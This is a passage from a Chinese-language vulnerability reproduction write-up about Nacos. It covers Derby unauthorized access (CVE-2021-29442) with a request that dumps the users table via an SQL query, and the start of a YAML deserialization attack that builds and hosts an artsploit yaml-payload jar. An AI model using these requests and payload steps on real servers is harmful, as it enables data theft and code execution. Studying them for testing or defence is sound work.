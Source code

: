 添加之后点击放行不要关闭拦截  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiaMXbtQLmYYe1Rd82YNP7hJXF5IAbuIFXeia7RDicoqw3YpAnzvkZh9C5A/640?wx_fmt=jpeg&from=appmsg&wxfrom=5&wx_lazy=1&tp=wxpic "")  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiar7D3vLJXiaxluSP47QmRv4wKI0h0MSoiacDD2JMwScQmeBsX0oCw7PBQ/640?wx_fmt=jpeg&from=appmsg&wxfrom=5&wx_lazy=1&tp=wxpic "")  
  
之后关闭拦截即可  
### 6.Derby未授权访问（CVE-2021-29442）  
  
nacos带有一个嵌入式的小型数据库derby，默认无需认证即可被访问，并执行任意sql查询，导致敏感信息泄露。  
  
影响版本：在nacos <= 1.4.0，无论是否开启鉴权，该漏洞都存在。当 nacos >1.4.0， 在新版中默认没开鉴权，所有这个漏洞还存在。若开启了鉴权，版本大于1.4.0，则漏洞不存在。  
  
/nacos/v1/cs/ops/derby?sql=select * from users  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiaiayodU5H99dibicZwko8XJEic69z5XONVOEx7a1VYyqguPop7mbCc1TLuw/640?wx_fmt=jpeg&from=appmsg&wxfrom=5&wx_lazy=1&tp=wxpic "")  
### 7.Nacos Client Yaml反序列化漏洞  
  
这个我没复现出来，网上找了几个但是都没有。。。。  
  
在1.4.1版本中存在Nacos Client Yaml反序列化漏洞，该漏洞只影响单独使用 nacos-client SDK的用户，原因在于spring cloud、springboot、dubbo等框架中并非使用的 AbstractConfigChangeListener 监听配置，所以该漏洞只影响了使用AbstractConfigChangeListener监听配置的客户端。  
  
具体思路是  
#### nacosYaml反序列化攻击  
  
工具利用  
  
https://github.com/artsploit/yaml-payload/  
  
下载之后打成jar包  
  
javac src/artsploit/AwesomeScriptEngineFactory.java  
  
编译java文件  
  
  
jar -cvf yaml-payload.jar -C src/ .  
  
  
jar：Java 自带的归档工具（类似 tar 或 zip），用于创建、查看或解压 JAR 文件。  
  
-c（create）：创建一个新的 JAR 文件。  
  
-v（verbose）：显示详细输出（打包的文件列表）。  
  
-f（file）：指定生成的 JAR 文件名（这里是 yaml-payload.jar）。  
  
-C src/：切换到 src/ 目录（相当于 cd src/）。  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOia7M3VDcjGfPuSeasntrxnP8y4Rj9WqJt0AswdZiaHzqh38xTMUKhm5Zw/640?wx_fmt=jpeg&from=appmsg&wxfrom=5&wx_lazy=1&tp=wxpic "")  
  
将生成的jar文件传到服务器上，到指定目录，开启web服务  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiak66ibP7Y3FSIoGXYuL2fv61M9bIa68NKdGtyvLsrjObYNvHQmnib2INg/640?wx_fmt=jpeg&from=appmsg&wxfrom=5&wx_lazy=1&tp=wxpic "")  
  
在Nacos发现dataid为db-config  
  